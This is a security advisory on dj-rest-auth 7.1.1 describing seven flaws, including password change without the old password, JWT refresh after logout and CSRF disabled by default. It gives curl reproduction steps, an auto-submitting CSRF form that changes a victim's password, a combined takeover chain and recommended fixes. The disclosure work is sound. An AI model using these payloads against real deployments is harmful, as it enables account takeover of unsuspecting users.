



# Vulnerability Report: Multiple Security Issues in dj-rest-auth

**Project:** dj-rest-auth
**Version:** 7.1.1 (commit `c0c9c23`)
**Date:** 2026-03-14
**Type:** Insecure Default Configuration / Broken Authentication / Broken Access Control
**OWASP:** A07:2021 - Identification and Authentication Failures, A05:2021 - Security Misconfiguration
**CWE:** CWE-287, CWE-613, CWE-915, CWE-862, CWE-614, CWE-352, CWE-799

---

## 1. Summary

dj-rest-auth v7.1.1 contains seven security issues spanning insecure defaults, broken authentication logic, and insufficient access control. The most critical findings allow account takeover without knowledge of the current password (Finding 1) and persistent session hijacking after logout in JWT mode (Finding 2). Four additional medium-severity issues weaken the security posture of any deployment using default settings, and one low-severity issue undermines rate limiting effectiveness.

---

## 2. Findings Overview

| # | Severity | Title | CWE |
|---|----------|-------|-----|
| 1 | **HIGH** | Password change without old password verification | CWE-287 |
| 2 | **HIGH** | JWT refresh token remains valid after logout | CWE-613 |
| 3 | **MEDIUM** | Mass assignment on UserDetailsView (username writable) | CWE-915 |
| 4 | **MEDIUM** | LogoutView accepts unauthenticated POST requests | CWE-862 |
| 5 | **MEDIUM** | JWT cookie Secure flag defaults to False | CWE-614 |
| 6 | **MEDIUM** | JWT cookie authentication disables CSRF protection by default | CWE-352 |
| 7 | **LOW** | All auth endpoints share a single throttle scope | CWE-799 |

---

## 3. Finding 1 — HIGH: Password Change Without Old Password Verification

### 3.1 Affected Files

- `dj_rest_auth/app_settings.py` (line 27)
- `dj_rest_auth/serializers.py` (lines 325-331)

### 3.2 Root Cause

The `OLD_PASSWORD_FIELD_ENABLED` setting defaults to `False`. When this default is active, `PasswordChangeSerializer.__init__()` removes the `old_password` field entirely:

```python
# app_settings.py:27
'OLD_PASSWORD_FIELD_ENABLED': False,

# serializers.py:325-331
def __init__(self, *args, **kwargs):
    self.old_password_field_enabled = api_settings.OLD_PASSWORD_FIELD_ENABLED
    ...
    if not self.old_password_field_enabled:
        self.fields.pop('old_password')
```

This means any authenticated user can change their password by supplying only `new_password1` and `new_password2`, with no proof of knowledge of the current password.

### 3.3 Exploitation Scenario

An attacker who obtains a valid session token (e.g., via XSS stealing a session cookie, or a leaked API token) can permanently take over the account by changing the password without knowing the original one.

**Prerequisites:** A valid authentication token (session cookie, Token, or JWT access token).

### 3.4 Steps to Reproduce

```bash
# 1. Register a user and obtain a token
curl -s -X POST http://127.0.0.1:8000/api/auth/registration/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"victim","email":"victim@test.com","password1":"OldPass123!","password2":"OldPass123!"}'

TOKEN=$(curl -s -X POST http://127.0.0.1:8000/api/auth/login/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"victim","password":"OldPass123!"}' | python -c "import sys,json; print(json.load(sys.stdin)['key'])")

# 2. Change password WITHOUT providing old password
curl -s -X POST http://127.0.0.1:8000/api/auth/password/change/ \
  -H "Authorization: Token $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"new_password1":"Hacked999!","new_password2":"Hacked999!"}'
# Returns: {"detail":"New password has been saved."}

# 3. Verify old password no longer works
curl -s -X POST http://127.0.0.1:8000/api/auth/login/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"victim","password":"OldPass123!"}'
# Returns: {"non_field_errors":["Unable to log in with provided credentials."]}

# 4. Verify new password works
curl -s -X POST http://127.0.0.1:8000/api/auth/login/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"victim","password":"Hacked999!"}'
# Returns: {"key":"..."} (login successful)
```

### 3.5 Impact

Full account takeover. An attacker with a stolen token can lock the legitimate user out of their account permanently. This is especially dangerous because password change is the one operation that should require re-authentication to prevent exactly this scenario.

### 3.6 Recommended Fix

Set `OLD_PASSWORD_FIELD_ENABLED` to `True` by default:

```python
# app_settings.py
'OLD_PASSWORD_FIELD_ENABLED': True,
```

---

## 4. Finding 2 — HIGH: JWT Refresh Token Remains Valid After Logout

### 4.1 Affected File

- `dj_rest_auth/views.py` (lines 171-214)

### 4.2 Root Cause

When JWT mode is enabled (`USE_JWT=True`) without `rest_framework_simplejwt.token_blacklist` in `INSTALLED_APPS`, the `LogoutView.logout()` method only deletes client-side cookies. It does not invalidate the refresh token server-side:

```python
# views.py:171-214
if api_settings.USE_JWT:
    ...
    unset_jwt_cookies(response)  # Only clears cookies

    if 'rest_framework_simplejwt.token_blacklist' in settings.INSTALLED_APPS:
        # Blacklist logic — only runs if blacklist app is installed
        ...
    elif not cookie_name:
        message = _('Neither cookies or blacklist are enabled...')
        ...
```

Without the blacklist app, a previously captured refresh token can be used indefinitely to obtain new access tokens, making logout purely cosmetic.

### 4.3 Steps to Reproduce

```bash
# 1. Start server with JWT mode (no token_blacklist)
# 2. Register and obtain JWT tokens
RESPONSE=$(curl -s -X POST http://127.0.0.1:8000/api/auth/registration/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"jwtuser","email":"jwt@test.com","password1":"JwtPass123!","password2":"JwtPass123!"}')
ACCESS=$(echo $RESPONSE | python -c "import sys,json; print(json.load(sys.stdin)['access'])")
REFRESH=$(echo $RESPONSE | python -c "import sys,json; print(json.load(sys.stdin)['refresh'])")

# 3. Logout
curl -s -X POST http://127.0.0.1:8000/api/auth/logout/ \
  -H "Authorization: Bearer $ACCESS" \
  -H 'Content-Type: application/json' \
  -d "{\"refresh\": \"$REFRESH\"}"
# Returns: {"detail":"Successfully logged out."}

# 4. Use refresh token AFTER logout to get a new access token
curl -s -X POST http://127.0.0.1:8000/api/auth/token/refresh/ \
  -H 'Content-Type: application/json' \
  -d "{\"refresh\": \"$REFRESH\"}"
# Returns: {"access":"eyJ..."} — new access token issued despite logout!
```

### 4.4 Impact

Logout is ineffective. A leaked refresh token continues to grant access for its entire lifetime (typically days), regardless of whether the user has logged out. This violates the principle that logout should revoke all active sessions.

### 4.5 Recommended Fix

Either require `token_blacklist` when `USE_JWT=True`, or raise an explicit error/warning during logout when server-side revocation is not possible. At minimum, the documentation should prominently warn that JWT logout without blacklist provides no server-side revocation.

---

## 5. Finding 3 — MEDIUM: Mass Assignment on UserDetailsView

### 5.1 Affected Files

- `dj_rest_auth/serializers.py` (lines 174-190)
- `dj_rest_auth/views.py` (lines 218-240)

### 5.2 Root Cause

`UserDetailsSerializer` includes `USERNAME_FIELD` (typically `username`) as a writable field. The `read_only_fields` tuple hardcodes only `('email',)`:

```python
# serializers.py:174-190
class Meta:
    extra_fields = []
    if hasattr(UserModel, 'USERNAME_FIELD'):
        extra_fields.append(UserModel.USERNAME_FIELD)  # writable!
    if hasattr(UserModel, 'EMAIL_FIELD'):
        extra_fields.append(UserModel.EMAIL_FIELD)
    ...
    fields = ('pk', *extra_fields)
    read_only_fields = ('email',)  # hardcoded string, not dynamic
```

Two issues exist:
1. `username` is writable by default, allowing any user to change their own username.
2. `read_only_fields` hardcodes the string `'email'` rather than using `UserModel.EMAIL_FIELD`. If a custom User model uses a different email field name (e.g., `email_address`), the actual email field becomes writable.

### 5.3 Steps to Reproduce

```bash
# 1. Register and login
TOKEN=$(curl -s -X POST http://127.0.0.1:8000/api/auth/login/ \
  -H 'Content-Type: application/json' \
  -d '{"username":"normaluser","password":"TestPass123!"}' | python -c "import sys,json; print(json.load(sys.stdin)['key'])")

# 2. Change username via PATCH
curl -s -X PATCH http://127.0.0.1:8000/api/auth/user/ \
  -H "Authorization: Token $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"username":"hijacked_admin"}'
# Returns: {"pk":1,"username":"hijacked_admin","email":"normal@test.com",...}
```

### 5.4 Impact

- **Username spoofing:** Users can change their username to impersonate other users (e.g., `admin`) in systems that display or rely on usernames for identity.
- **Email field bypass:** With custom User models where `EMAIL_FIELD != 'email'`, the email address becomes writable, enabling account takeover via password reset to an attacker-controlled email.

### 5.5 Recommended Fix

Make `USERNAME_FIELD` read-only by default, and dynamically resolve `EMAIL_FIELD` for `read_only_fields`:

```python
class Meta:
    ...
    read_only_fields = ('pk', UserModel.USERNAME_FIELD, UserModel.EMAIL_FIELD)
```

---

## 6. Finding 4 — MEDIUM: LogoutView Accepts Unauthenticated POST Requests

### 6.1 Affected File

- `dj_rest_auth/views.py` (lines 131-138)

### 6.2 Root Cause

`LogoutView` uses `permission_classes = (AllowAny,)`, allowing anyone — including unauthenticated users — to send POST requests to the logout endpoint:

```python
# views.py:131-138
class LogoutView(APIView):
    permission_classes = (AllowAny,)
    ...
```

### 6.3 Steps to Reproduce

```bash
# No authentication token needed
curl -s -X POST http://127.0.0.1:8000/api/auth/logout/
# Returns: {"detail":"Successfully logged out."} (HTTP 200)
```

### 6.4 Impact

In JWT mode with `token_blacklist` enabled, an attacker who obtains a victim's refresh token can submit it to the unauthenticated logout endpoint to blacklist it, effectively performing a denial-of-service attack by invalidating the victim's session. The endpoint should require authentication so that only the token owner can revoke their own tokens.

### 6.5 Recommended Fix

Change the permission class to `IsAuthenticated`:

```python
class LogoutView(APIView):
    permission_classes = (IsAuthenticated,)
```

---

## 7. Finding 5 — MEDIUM: JWT Cookie Secure Flag Defaults to False

### 7.1 Affected File

- `dj_rest_auth/app_settings.py` (line 35)

### 7.2 Root Cause

```python
# app_settings.py:35
'JWT_AUTH_SECURE': False,
```

With this default, JWT cookies are transmitted over both HTTP and HTTPS. In any environment where HTTP traffic occurs (mixed-content pages, internal proxies, health check endpoints), the JWT token is exposed to network-level interception.

### 7.3 Impact

An attacker performing a man-in-the-middle attack (e.g., on a shared Wi-Fi network, or via ARP spoofing on an internal network) can capture JWT tokens transmitted over unencrypted HTTP connections, leading to session hijacking.

### 7.4 Recommended Fix

Default to `True` (secure-by-default):

```python
'JWT_AUTH_SECURE': True,
```

---

## 8. Finding 6 — MEDIUM: JWT Cookie Authentication Disables CSRF Protection by Default

### 8.1 Affected Files

- `dj_rest_auth/app_settings.py` (lines 40-41)
- `dj_rest_auth/jwt_auth.py` (lines 135-144)

### 8.2 Root Cause

Both CSRF-related settings default to `False`:

```python
# app_settings.py:40-41
'JWT_AUTH_COOKIE_USE_CSRF': False,
'JWT_AUTH_COOKIE_ENFORCE_CSRF_ON_UNAUTHENTICATED': False,
```

In `JWTCookieAuthentication.authenticate()`, the CSRF check is gated behind these two flags:

```python
# jwt_auth.py:141-144
if api_settings.JWT_AUTH_COOKIE_ENFORCE_CSRF_ON_UNAUTHENTICATED:
    self.enforce_csrf(request)
elif raw_token is not None and api_settings.JWT_AUTH_COOKIE_USE_CSRF:
    self.enforce_csrf(request)
```

Since both conditions are `False`, CSRF validation never executes.

### 8.3 Impact

When JWT tokens are stored in cookies (the recommended approach for browser-based SPAs), browsers automatically include them with every request. Without CSRF protection, an attacker can craft a malicious page that performs state-changing actions on behalf of the victim:

```html
<!-- Attacker's page — changes victim's password -->
<form action="https://target.com/api/auth/password/change/" method="POST">
  <input name="new_password1" value="hacked123">
  <input name="new_password2" value="hacked123">
</form>
<script>document.forms[0].submit()</script>
```

Combined with Finding 1 (no old password required), this enables full account takeover via a single page visit.

### 8.4 Recommended Fix

Enable CSRF protection by default when cookies are used:

```python
'JWT_AUTH_COOKIE_USE_CSRF': True,
```

---

## 9. Finding 7 — LOW: All Auth Endpoints Share a Single Throttle Scope

### 9.1 Affected File

- `dj_rest_auth/views.py` (lines 40, 139, 252, 278, 302)

### 9.2 Root Cause

Every view in the package uses the same `throttle_scope`:

```python
# All views use:
throttle_scope = 'dj_rest_auth'
```

Affected views: `LoginView`, `LogoutView`, `PasswordResetView`, `PasswordResetConfirmView`, `PasswordChangeView`.

### 9.3 Impact

1. **Cross-endpoint throttle exhaustion:** If a deployer configures `DEFAULT_THROTTLE_RATES['dj_rest_auth']`, an attacker can exhaust the shared quota by flooding a low-cost endpoint (e.g., password reset), thereby blocking the victim from logging in.
2. **No default rate limiting:** By default, `DEFAULT_THROTTLE_RATES` does not include a `dj_rest_auth` entry, so the login endpoint has zero brute-force protection out of the box.

### 9.4 Recommended Fix

Use distinct throttle scopes per endpoint:

```python
class LoginView(GenericAPIView):
    throttle_scope = 'dj_rest_auth_login'

class PasswordResetView(GenericAPIView):
    throttle_scope = 'dj_rest_auth_password_reset'

# etc.
```

---

## 10. Combined Attack Chain

Findings 1, 5, and 6 combine into a devastating attack chain against JWT cookie deployments using default settings:

1. **Finding 6** (no CSRF) allows an attacker to craft a malicious page that submits requests using the victim's JWT cookie.
2. **Finding 1** (no old password required) means the CSRF request can change the victim's password.
3. **Finding 5** (no Secure flag) means the JWT cookie may also be captured over HTTP, providing an alternative attack vector.

**Result:** A single visit to an attacker-controlled page can silently change the victim's password, achieving full account takeover with zero user interaction beyond the initial page visit.

---

## 11. References

- [OWASP A07:2021 - Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [OWASP A05:2021 - Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [CWE-613: Insufficient Session Expiration](https://cwe.mitre.org/data/definitions/613.html)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)
- [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [CWE-352: Cross-Site Request Forgery](https://cwe.mitre.org/data/definitions/352.html)
- [dj-rest-auth source repository](https://github.com/iMerica/dj-rest-auth)
